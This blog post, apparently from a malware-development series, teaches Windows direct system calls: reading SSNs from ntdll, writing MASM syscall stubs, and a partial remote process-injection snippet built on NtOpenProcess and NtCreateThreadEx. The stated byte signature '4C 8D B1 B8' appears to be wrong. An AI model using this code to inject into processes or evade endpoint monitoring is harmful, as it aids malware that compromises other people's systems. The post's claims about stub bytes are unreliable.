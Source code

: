 ```yaml
---
description: Finally I talk about sys calls :)
---
```


# Direct System Call

## Introduction

Understanding this flow is crucial when dealing with system calls, as they serve as the gateway between user-mode applications and the underlying Windows kernel. As you know, the workings of Windows API functions follow a layered approach, where calls to functions like `OpenProcess` in `kernel32.dll` are redirected to `kernelbase.dll`, which then invokes the corresponding NTAPI function—such as `NtOpenProcess` in `ntdll.dll` which leads to a system call (`syscall`), transitioning execution into kernel mode where the actual operation is performed.

So why bother with the stupid high level stuff , when we can directly do a syscall is what some _gato_ thought.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p><em>What if I just syscall directly ?</em></p></figcaption></figure>

### Theory

Okay so I have given a brief in this post in Winternal(link), but to just give a gist of it, each system call is basically just a number called SSN (system service number) which is what the NTAPI passes to kernel mode where a table SSDT is used to look up for the correct function (SSR) for that SSN and it gets called to then the result being sent back to user mode. We don't need to dive deep into this for now. We can see a pattern in most of the NTAPI functions which would look similar to this

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```nasm
mov r10, rcx
mov eax, [ssn]
test byte ptr ds:[addr], 1
jne there ----+
syscall       |
ret           |
int 2E  <-----+
ret
```

So the first thing it does is to save the value in `rcx` register to `r10`. This is required because, in x64 syscall convention, `rcx` is not preserved across the `syscall` instruction, so Windows stores it in `r10` for safe access. Then it moves the **SSN** to eax and does a test on a kernel variable, this is done in order to check if the system is x64 / x86 and based on that, the particular syscall is done (Older systems used `int 0x2E` for syscall) and the execution is passed to kernel mode.

### Direct System Calls

Okay so as we know that to invoke a syscall, an SSN is really important, so we would have to get the SSN for the NT functions we want to use. This can easily be done by getting the address of that NT function inside NTDLL. Since we know that every function starts with the `4C 8D B1 B8` hex, we can use this to our advantage and get the **SSN** for our function.  After which is just the same thing , setting up arguments & invoking the syscall.&#x20;

<pre class="language-c"><code class="lang-c">DWORD get_sysn(HMODULE ntHandle, LPCSTR fnName) {

    DWORD               ssn = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("Resource Locator Failed with  @-->0x%d", GetLastError());
        return 0;
    }

    ssn = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    return ssn;
}

<strong>DWORD    dwNtOpenProcess = get_sysn(ntdllModule, "NtOpenProcess");
</strong>DWORD    dwNtAllocateVirtualMemory = get_sysn(ntdllModule, "NtAllocateVirtualMemory");
....
</code></pre>

Since we know what the first 4 bytes would be , we can directly skip through them and get the first byte after it (look at the pic ) which would be our SSN for the particular function. Also since the compiler doesn't know about these functions, we would have to tell it to look for it externally and write an assembly code with the same thing. I have created a [helper.h](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/helper.h) and included every thing in it, like the structures / function prototypes etc, which are required.

{% code title="helper.h" %}
```c
extern NTSTATUS NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);
```
{% endcode %}

Then we also have to create an assembly file and link it with our project so that the compiler knows where to look for those functions.&#x20;

{% code title="sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN dwNtAllocateVirtualMemory:DWORD;

.code
NtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                syscall
                ret
NtOpenProcess ENDP

NtAllocateVirtualMemory PROC
                mov r10, rcx
                mov eax, dwNtAllocateVirtualMemory
                syscall
                ret
NtAllocateVirtualMemory ENDP
....
END
```
{% endcode %}

after we have written our asm file, we would have to link it with our project , to do that right click on the project in solution explorer and add a build dependency -> masm. Then just make sure that the file sys.asm is being included in the build and is also of type "Microsoft Macro Assembler" (right click on file name -> properties)

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Alright, now we have setup the assembly to run, all that's left is just the same NTAPI process injection. I dont want to fill this blog with a long code of me doing the same thing again so if you want to see it, you can check out the code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c). Here's a snippet (as you can see this is very similar to the NTAPI implementation)

```c
STATUS = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d || STATUS @--0x%x", GetLastError(), STATUS);
    goto deadend;
}
....
STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, rBuffer, NULL, FALSE, 0, 0, 0, NULL);
....
STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

```

### Explanation

What happens here is that we first get the **SSN** of the functions and save it to respective variables. Then we use those same variable in the assembly file and once again use the `extern` keyword in the assembly so that the compiler knows to look for it in an external source (which is our C file).&#x20;

When we call the `NtOpenProcess` function, the compiler starts looking for it outside since we have defined it with the `extern` keyword and finds it in the assembly file and then invokes that function.

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

